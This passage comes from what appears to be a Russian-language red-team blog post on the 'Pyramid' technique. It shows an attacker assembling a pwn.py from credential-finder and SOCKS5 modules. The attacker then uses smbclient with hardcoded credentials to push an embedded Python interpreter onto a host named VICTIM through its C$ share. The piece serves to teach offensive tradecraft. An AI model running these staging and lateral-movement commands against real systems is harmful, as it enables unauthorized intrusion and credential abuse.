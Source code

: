 ```bash

cat {cfinder,socks5}.py >> pwn.py
```

В этом примере покажем, что техника Pyramid применима и в случае, когда у атакующего нет доступа к графической оболочки целевой системы. Для этого я сперва использую [smbclient](https://www.samba.org/samba/docs/current/man-html/smbclient.1.html), чтобы рекурсивно перенести содержимое директории с Python-интерпретатором.

```terminal?prompt=$
~$ curl -sSL https://www.python.org/ftp/python/3.10.8/python-3.10.8-embed-amd64.zip > python-3.10.8-embed-amd64.zip
~$ mkdir python-3.10.8-embed-amd64
~$ cd python-3.10.8-embed-amd64
~$ unzip -q ../python-3.10.8-embed-amd64.zip
~$ vi cradle.py
~$ smbclient '//VICTIM/C$' -U j.doe%'Passw0rd3!' -c '
prompt OFF;
recurse ON;
cd \Users\j.doe\Downloads;
mkdir python-3.10.8-embed-amd64;
cd python-3.10.8-embed-amd64;
mput \*'
```

[![socks-over-ssh-transfer.png](/assets/images/python-pyramid/socks-over-ssh-transfer.png)](/assets/images/python-pyramid/socks-over-ssh-transfer.png)
{:.center-image}
